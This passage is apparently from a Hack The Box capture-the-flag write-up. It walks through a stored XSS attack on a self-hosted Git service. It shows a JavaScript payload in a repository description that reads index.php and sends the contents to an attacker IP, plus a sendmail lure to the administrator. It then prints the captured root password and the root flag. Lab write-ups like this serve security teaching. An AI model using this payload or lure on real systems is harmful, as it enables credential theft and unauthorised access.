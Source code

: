 Nice, we can reproduce these steps, let's craft a more advanced payload to grab sensitive data from the server, for example, we can use this to grab the contents of `index.php`:

```js
<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php').then(response => response.text()).then(data => fetch('http://10.10.15.39:8000/?response=' + encodeURIComponent(data))).catch(error => console.error('Error:', error));">XSS test</a>
```

In order to make this work, we need to create a repository:

![](Pasted image 20250416130652.png)

And we need to use the payload at the `description` field:

![](Pasted image 20250416132041.png)

![](Pasted image 20250416132052.png)


Once we create the repository, we can send an email back to the administrator which in this case is `jobert`, let's send it like this:

```
echo -e "http://localhost:3000/axel/REPO-NAME" | sendmail jobert@localhost
```

We need to have our python server ready before sending the email, once we send it, we can check this:

![](Pasted image 20250416132139.png)

Let's decode the data:

![](Pasted image 20250416132217.png)

There we go, we got credentials for root:

```
root:IKw75eR0MR7CMIxhH0
```

Let's switch to root:

![](Pasted image 20250416132330.png)

Now we can read `root.txt` and finish:

```
root@cat:/home/axel# cat /root/root.txt
d22c2ea311a3f638c4dbae4cca596120
```


https://www.hackthebox.com/achievement/machine/1872557/646


